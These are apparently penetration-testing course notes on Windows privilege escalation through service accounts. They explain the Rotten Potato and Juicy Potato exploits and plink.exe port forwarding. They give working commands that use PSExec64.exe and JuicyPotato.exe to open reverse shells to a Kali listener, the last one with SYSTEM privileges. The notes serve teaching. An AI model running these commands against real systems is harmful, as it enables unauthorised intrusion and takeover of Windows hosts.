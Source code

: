 We briefly talked about service accounts at the start of the course.
Service accounts can be given special privileges in order for them
to run their services, and cannot be logged into directly.
Unfortunately, multiple problems have been found with service
accounts, making them easier to escalate privileges with.

## Rotten Potato

The original Rotten Potato exploit was identified in 2016.

Service accounts could intercept a SYSTEM ticket and use it to impersonate the SYSTEM user.

This was possible because service accounts usually have the `SeImpersonatePrivilege` privilege enabled.

## Juicy Potato

Rotten Potato was quite a limited exploit.

Juicy Potato works in the same way as Rotten Potato, but the authors did extensive research and found many more ways to exploit.

https://github.com/ohpe/juicy-potato

### Privilege Escalation
1. Copy PSExec64.exe and the JuicyPotato.exe exploit executable over to
Windows.
2. Start a listener on Kali.
3. Using an administrator command prompt, use PSExec64.exe to trigger a
reverse shell running as the Local Service service account:
```
C:\PrivEsc\PSExec64.exe -i -u "ntauthority\local service" C:\PrivEsc\reverse.exe
```
4. Start another listener on Kali.
5. Now run the JuicyPotato exploit to trigger a reverse shell running with SYSTEM privileges:
```
C:\PrivEsc\JuicyPotato.exe -l 1337 -p C:\PrivEsc\reverse.exe -t * -c {03ca98d6-ff5d49b8-abc6-03dd84127020}
```
6. If the CLSID ({03ca…) doesn’t work for you, either check this list: https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md or run the GetCLSID.ps1 PowerShell script.

# Port Forwarding

Sometimes it is easier to run exploit code on Kali, but the vulnerable program is listening on an internal port.

In these cases we need to forward a port on Kali to the internal port on Windows.

We can do this using a program called plink.exe (from the makers of PuTTY).

## plink.exe
The general format of a port forwarding command using
plink.exe:
```
plink.exe <user>@<kali> -R <kaliport>:<target-IP>:<target-port>
```
